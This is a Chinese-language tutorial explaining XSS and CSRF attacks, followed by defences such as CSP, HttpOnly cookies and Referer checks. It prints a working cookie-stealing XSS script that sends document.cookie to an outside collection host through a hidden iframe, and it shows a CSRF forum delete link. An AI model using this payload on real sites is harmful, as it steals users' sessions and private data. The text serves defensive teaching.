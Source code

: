 xss--跨站脚本攻击

通过客户端脚本语言（最常见如：JavaScript）
在一个论坛发帖中发布一段恶意的JavaScript代码就是脚本注入，如果这个代码内容有请求外部服务器，那么就叫做XSS！

csrf也叫xsrf ---跨站请求伪造

又称XSRF，冒充用户发起请求（在用户不知情的情况下）,完成一些违背用户意愿的请求（如恶意发帖，删帖，改密码，发邮件等）

通常来说CSRF是由XSS实现的，所以CSRF时常也被称为XSRF[用XSS的方式实现伪造请求]（但实现的方式绝不止一种，还可以直接通过命令行模式（命令行敲命令来发起请求）直接伪造请求[只要通过合法验证即可]）。
XSS更偏向于代码实现（即写一段拥有跨站请求功能的JavaScript脚本注入到一条帖子里，然后有用户访问了这个帖子，这就算是中了XSS攻击了），CSRF更偏向于一个攻击结果，只要发起了冒牌请求那么就算是CSRF了。

场景：我在一条帖子里面写下了如下代码，发了出去，然后陆陆续续有很多可爱（wu / zhi） 的用户访问到这个帖子，然后用户接下来的所有操作都由我这串代码掌控了（各种姿势混着玩~）

如下：

```
while(true){
    alert('你关不掉我');
}
```

这个就是最原始的脚本注入了。
用户进来就麻烦了，一直弹窗一直弹窗。

那么XSS（跨站脚本）就是照瓢画葫了，用JavaScript写一个请求跨站的脚本就是XSS了，如下：

```
// 用 <script type="text/javascript"></script> 包起来放在评论中
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
```

此段代码携带着cookie信息传输给了 **[http://192.168.123.123/myxss/...](http://192.168.123.123/myxss//strong) 这段服务器，然后服务器的代码就可以接收到了用户的隐私消息，继而继续做其他的业务处理（myxss/index.php 中写一些可怕的代码，如把用户信息存进自己的数据库）。**

*有没感觉到背后一寒*

看到这里感觉到危险了吧（想想初学程序时我们的站点完全没有这个意识，活生生的是在裸奔），=
既然此段脚本注入能携带着用户信息到收集服务器，那么再研究研究，他自然能发邮件？发帖？一系列业务逻辑？ ~~当然可以！。

这里tips一下：上面的代码仅仅是XSS，并没有发生CSRF，因为192.168.123.123/myxss/index.php 仅仅是把用户信息存起来了而已，他并没有“伪造”用户发起一些请求，所以他只算是XSS攻击而不算是CSRF攻击，如果192.168.123.123/myxss/index.php 写的代码是 将当前用户的昵称改为“我是大笨猪”，那么就算是CSRF攻击了，因为这段代码伪造用户发出了请求（但是用户却不自知）。

那么下面我介绍一下最最简单的CSRF攻击（没有用到XSS的哦）：
一个论坛，经过我的多次抓包分析（着重分析请求返回头，请求返回体）了解到这个论坛的删帖操作是触发 csdnblog.com/bbs/delete_article.php?id=“X" 那么，我只需要在论坛中发一帖，包含一链接：www.csdnblog.com/bbs/delete_article.php?id=“X" ，只要有用户点击了这个链接，那么ID为X的这一篇文章就被删掉了，而且是用户完全不知情的情况（敲黑板状：此处我可没有写XSS脚本哦，我纯粹是发一个url地址出来而已，既然删除操作可以伪造，那么只要我细细分析，其他操作（发帖，改名字，发私信，只要是这个论坛具有的功能）我都可以伪造咯！

XSS与CSRF讲完了，回头我会讲下如何防范XSS与CSRF。



如何防止xss和csrf攻击

CSRF依赖于XSS，防住XSS基本也就防住了CSRF让我们明确我们的目的，其实就是不让用户踏入XSS的坑，那我们有两个方法防止用户入坑，一个是对外部输入进行彻彻底底的敏感字符过滤，一个是在显示的时候做一些特殊处理不让敏感代码顺利执行。

```
其它的通用的补充性防御手段

1.在输出html时，加上Content Security Policy的Http Header
（作用：可以防止页面被XSS攻击时，嵌入第三方的脚本文件等）
（缺陷：IE或低版本的浏览器可能不支持）
2.在设置Cookie时，加上HttpOnly参数
（作用：可以防止页面被XSS攻击时，Cookie信息被盗取，可兼容至IE6）
（缺陷：网站本身的JS代码也无法操作Cookie，而且作用有限，只能保证Cookie的安全）
3.在开发API时，检验请求的Referer参数
（作用：可以在一定程度上防止CSRF攻击）
（缺陷：IE或低版本的浏览器中，Referer参数可以被伪造）
```







































## XSS

跨站脚本攻击

攻击者在网站中注入恶意的客户端代码，通过恶意脚本对客户端页面进行篡改，从而在用户浏览网页时，对用户浏览器进行控制或者获取用户的隐私数据

XSS攻击可以分为3类：反射型，存储型，基于DOM型

1.反射性(非持久性)

